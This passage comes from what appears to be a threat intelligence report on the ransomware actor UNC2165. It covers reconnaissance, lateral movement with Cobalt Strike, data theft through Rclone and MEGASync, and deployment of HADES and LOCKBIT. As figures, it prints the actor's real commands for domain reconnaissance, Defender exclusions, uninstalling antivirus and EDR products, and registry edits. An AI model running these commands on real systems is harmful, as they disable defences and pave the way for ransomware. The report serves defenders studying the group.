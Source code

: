 victim's VMware VCenter, which provided information about host configurations, clusters, and storage devices in the organization's virtualization environment.UNC2165 accessed a TrendMicro OfficeScan management console and viewed admin roles and other configuration information.Figure 4: UNC1543 reconnaissance commands; common precursor to UNC2165cmd.exe /C powershell /c nltest /dclist: ; nltest /domain_trusts ; cmdkey /list ; net group 'Domain Admins' /domain ; net group 'Enterprise Admins' /domain ; net localgroup Administrators /domain ; net localgroup Administrators cmd.exe /C powershell /c "Get-WmiObject win32_service -ComputerName localhost | Where-Object {$_.PathName -notmatch 'c:\\win'} | select Name, DisplayName, State, PathName | findstr 'Running'"Lateral Movement and Maintain PresenceUNC2165 relies heavily on Cobalt Strike BEACON to enable lateral movement and maintain presence in a victim environment. Beyond its use of BEACON, UNC2165 has also used common administrative protocols and software to enable lateral movement, including RDP and SSH. The threat actors connected via SSH to enterprise storage systems using PuTTy.UNC2165 has moved laterally within victim environments via RDP.In support of both persistence and lateral movement, UNC2165 has created local system accounts and added them to groups including local administrator and RDP users.In at least one case, UNC2165 maintained access to a victim environment via its corporate VPN infrastructure.Complete MissionIn most cases, UNC2165 has stolen data from its victims to use as leverage for extortion after it has deployed ransomware across an environment. In intrusions where the data exfiltration method could be identified, there is evidence to suggest the group used either Rclone or MEGASync to transfer data from the victims' environments prior to encryption. The Rclone utility is used by many financially motivated actors to synchronize sensitive files with cloud storage providers, and MEGASync synchronizes data to the MEGA cloud hosting service. UNC2165 has leveraged multiple Windows batch scripts during the final phases of its operations to deploy ransomware and modify systems to aid the ransomware's propagation. We have observed UN2165 use both HADES and LOCKBIT; we have not seen these threat actors use HADES since early 2021. Notably, LOCKBIT is a prominent Ransomware-as-a-Service (RaaS) affiliate program, which we track as UNC2758, that has been advertised in underground forums since early 2020 (21-00026166).UNC2165 uses a script that forces Group Policy updates and adds all files with EXE, BAT, or DLL extensions and the C:\Programdata\ and C:\Windows\ directories to the Windows Defender exclusions list (Figure 5).UNC2165 scripts have also used WMI to stop and uninstall anti-virus products and other Windows Services prior to ransomware deployment (Figure 6).UNC2165 has used scripts to modify multiple Windows Registry keys with an aim to remove some barriers to ransomware execution and disable utilities commonly used by administrators such as the Windows task manager, registry tools, and the command prompt (Figure 7).UNC2165 has employed a ransomware execution script that initiates the encryption process using PSEXEC. This script also disables Windows Defender and clears the Windows event logs (Figure 8).Figure 5: Sample script forcing Group Policy updategpupdate /forcepowershell.exe -command Add-MpPreference -ExclusionExtension ".bat"powershell.exe -command Add-MpPreference -ExclusionExtension ".exe"powershell.exe -command Add-MpPreference -ExclusionExtension ".dll"powershell.exe -command Add-MpPreference -ExclusionPath "C:\Programdata\"powershell.exe -command Add-MpPreference -ExclusionPath "C:\Windows\>"Figure 6: Sample script to uninstall antivirus productswmic product where name="CarbonBlack Sensor" call uninstall /nointeractivewmic product where name="Carbon Black Sensor" call uninstall /nointeractivewmic product where name="Carbon Black Cloud Sensor 64-bit" call uninstall /nointeractivewmic product where name="CarbonBlack Cloud Sensor 64-bit" call uninstall /nointeractivewmic product where name="Cb Defense Sensor 64-bit" call uninstall /nointeractivewmic product where "name like '%%Cb Defense%%'" call uninstall /nointeractivewmic product where name="Dell Threat Defense" call uninstall /nointeractivewmic product where name="Cylance PROTECT" call uninstall /nointeractivewmic product where name="Cylance Unified Agent" call uninstall /nointeractivewmic product where name="Cylance PROTECT - Dell Plugins" call uninstall /nointeractivewmic product where name="Microsoft Security Client" call uninstall /nointeractivewmic product where name="LogRhythm System Monitor Service" call uninstall /nointeractivewmic product where name="Microsoft Endpoint Protection Management Components" call uninstall /nointeractivewmic service where "caption like '%%LogRhythm%%'" call stopservicewmic service where "caption like '%%SQL%%'" call stopservicewmic service where "caption like '%%Exchange%%'" call stopservicewmic service where "caption like '%%Malwarebytes%%'" call stopserviceFigure 7: Sample script to edit the Windows Registry reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /f /v "HidePowerOptions" /t REG_DWORD /d 1reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer" /f /v "HidePowerOptions" /t REG_DWORD /d 1reg add "HKCU\Software\Policies\Microsoft\Windows\Explorer" /f /v "DisableNotificationCenter" /t REG_DWORD /d 1reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\PushNotifications" /f /v "ToastEnabled" /t REG_DWORD /d 0reg add "hklm\system\currentcontrolset\control\Storage" /f /v "write Protection" /t REG_DWORD /d 0reg add "hklm\system\currentcontrolset\control\StorageDevicePolicies" /f /v "writeprotect" /t REG_DWORD /d 0reg add "hklm\system\currentcontrolset\Services\LanmanServer\Parameters" /f /v "AutoShareWks" /t